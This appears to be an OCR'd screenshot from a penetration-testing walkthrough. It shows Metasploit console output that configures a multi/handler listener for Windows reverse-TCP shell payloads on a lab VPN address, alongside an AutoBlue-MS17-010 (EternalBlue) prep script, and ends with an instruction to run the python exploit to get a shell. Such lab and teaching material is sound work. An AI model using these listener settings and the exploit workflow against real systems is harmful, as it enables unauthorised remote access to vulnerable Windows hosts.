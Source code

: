 
                 _---------.
             .' #######   ;."
  .---,.    ;@             @@`;   .---,..
." @@@@@'.,'@@            @@@@@',.'@@@@ ".
'-.@@@@@@@@@@@@@          @@@@@@@@@@@@@ @;
   `.@@@@@@@@@@@@        @@@@@@@@@@@@@@ .'
     "--'.@@@  -.@        @ ,'-   .'--"
          ".@' ; @       @ `.  ;'
            |@@@@ @@@     @    .
             ' @@@ @@   @@    ,
              `.@@@@    @@   .                                                                                                
                ',@@     @   ;           _____________                                                                        
                 (   3 C    )     /|___ / Metasploit! \                                                                       
                 ;@'. __*__,."    \|--- \_____________/                                                                       
                  '(.,...."/                                                                                                  


       =[ metasploit v6.0.30-dev                          ]
+ -- --=[ 2099 exploits - 1129 auxiliary - 357 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Use help <command> to learn more 
about any command

[*] Processing config.rc for ERB directives.
resource (config.rc)> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
resource (config.rc)> set PAYLOAD windows/x64/shell/reverse_tcp
PAYLOAD => windows/x64/shell/reverse_tcp
resource (config.rc)> set LHOST tun0
LHOST => tun0
resource (config.rc)> set LPORT 4445
LPORT => 4445
resource (config.rc)> set ExitOnSession false
ExitOnSession => false
resource (config.rc)> set EXITFUNC thread
EXITFUNC => thread
resource (config.rc)> exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
resource (config.rc)> set PAYLOAD windows/shell/reverse_tcp
PAYLOAD => windows/shell/reverse_tcp
resource (config.rc)> set LPORT 4446
[*] Started reverse TCP handler on 10.10.14.3:4445 
LPORT => 4446
resource (config.rc)> exploit -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.14.3:4446 
msf6 exploit(multi/handler) > ➜  AutoBlue-MS17-010 git:(master) ✗ ./listener_prep.sh 
```
now run the python command as given in the instructions and you will get a shell session opened in the listener you setup.

